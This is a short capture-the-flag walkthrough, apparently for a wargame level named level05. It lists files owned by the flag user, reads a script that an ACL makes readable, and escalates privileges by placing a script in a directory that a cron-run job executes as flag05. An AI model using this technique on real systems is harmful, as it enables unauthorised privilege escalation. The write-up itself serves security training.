# First Search

```
$ ls -la
(nothing)

$ find / -user level05 2> /dev/null | grep -v proc
(nothing)

$ find / -user flag05 2> /dev/null | grep -v proc
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver

$ ls -l /usr/sbin/openarenaserver; ls -l /rofs/usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
-rwxr-x--- 1 flag05 flag05 94 Mar  5  2016 /rofs/usr/sbin/openarenaserver
```

we dont have the acces right but there is an ACL on the first file (Acces Control List)
lets take a look at it

```
$ getfacl /usr/sbin/openarenaserver
....
user:level05:r--
....
```

we grant reading rights !
so

```
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

this code execute each shell script in /opt/openarenaserver in a limited time
and remove the shell script

# Solution

if we try to put a script in /opt/openarenaserver we can notice that the script disappear so there is a cron that must execute the script

we have to add a script to execute getflag and put the output in a file

```
$ echo "getflag > /tmp/flagg" > /opt/openarenaserver/script.sh

<!-- wait a little bit -->

$ cat /tmp/flagg
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXX
```